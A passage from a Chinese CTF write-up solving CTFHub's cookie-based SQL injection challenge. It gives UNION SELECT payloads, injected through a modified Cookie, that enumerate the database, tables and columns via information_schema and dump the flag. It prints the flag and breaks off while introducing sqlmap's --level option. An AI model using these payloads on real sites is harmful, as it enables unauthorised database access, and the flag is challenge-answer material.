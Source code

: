 ![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/MySQL结构/7.png)

------

#### Cookie注入

**解法1：**`Burp Suite`

首先用`Burp Suite`抓包`id%E8%BE%93%E5%85%A51%E8%AF%95%E8%AF%95%EF%BC%9F`进行`url`解码结果为`id输入1试试？`。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/1.png)

`union select`可以进行联合查询，`id=-1`表示一个不存在的`id`，`database()`回显当前连接的数据库，修改`Cookie`为以下代码可以查询到当前数据库为`sqli`：

```sql
id=-1 union select 1, database();
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/2.png)

`group_concat()`把产生的同一分组中的值用`,`连接并形成一个字符串，`information_schema.tables`存了`mysql`所有的表，`table_schema`是表对应的数据库名的字段，`table_name`和`table_schema`相对应，用以下代码能够查询到指定数据库的表信息：

```sql
id=-1 union select 1, group_concat(table_name) from information_schema.tables where table_schema='sqli';
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/3.png)

`information_schema.columns`存了表中所有列的信息，`table_name`和`table_schema`相对应，可以看到有个表叫`gsilsvtvjn`，我们可以去查询该表的列信息：

```sql
id=-1 union select 1, group_concat(column_name) from information_schema.columns where table_name='gsilsvtvjn';
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/4.png)

最后输入以下代码根据`ywcxnnlyfe`字段可以查询到该字段的数据：

```sql
id=-1 union select 1, group_concat(ywcxnnlyfe) from sqli.gsilsvtvjn;
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/5.png)

提交`ctfhub{9a3c5a851a615b8332cbe20b}`即可。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Cookie注入/6.png)

------

**解法2：**`sqlmap`

`sqlmap`中有一个参数是`--level`，表示探测等级，其默认值为`1`，`level>=2`时会检测`Cookie`注入，`level>=3`时会检测`User-Agent`注入和`Referer`注入，`level>=5`时会检测`host`注入。以下代码可以爆破出当前网站中的所有数据库：
